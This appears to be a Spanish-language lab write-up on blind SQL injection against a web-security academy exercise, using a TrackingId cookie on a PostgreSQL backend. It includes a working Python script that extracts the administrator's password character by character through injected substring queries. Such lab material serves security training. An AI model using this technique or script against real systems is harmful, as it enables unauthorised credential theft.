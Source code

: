 si hacemos `'order by 1-- -` en las cookies, vemos que aparece el mensaje `Welcome Back` asi que sabemos que tenemos una unica tabla. Vamos a ver ante que version de DDBB estamos, y vemos que estamos ante postgresql, pues nos coge `version()`.

Asi que vamos a sacar la contraseña con el siguiente script: 
```python
 #!/usr/bin/python3
 
 from pwn import *
 import requests, signal, time, pdb, sys, string
 
 def def_handler(sig, frame):
     print("\n\n[!] Saliendo...")
     sys.exit(1)
 
 #Ctrl + C
 signal.signal(signal.SIGINT, def_handler)
 
 main_url = "https://0ade001803f6ab4dc04fa88e002700cb.web-security-academy.net"
 dictionary = string.ascii_lowercase + string.digits
 
 def makeRequest():
 
     password = ""
 
     p1 = log.progress("Fuerza bruta")
     p1.status("Iniciando fuerza bruta")
 
     time.sleep(2)
 
     p2 = log.progress("Password")
 
     for i in range(1,21):
         for j in dictionary:
 
             cookies = {
	                 'TrackingId': "g7BmeSpb4aBsVZij' and (select substring(password,%d,1) from users where username='administrator')='%s" % (i, j),
                 'session': 'DPQBXLIZb2iqqatNfLKyDlivPNyNeu9P'
             }
     
             p1.status(cookies['TrackingId'])
 
             r = requests.get(main_url, cookies=cookies)
 
             if "Welcome back!" in r.text:
                 password += j
                 p2.status(password)
                 break
 
 if __name__ == '__main__':
     makeRequest()
```
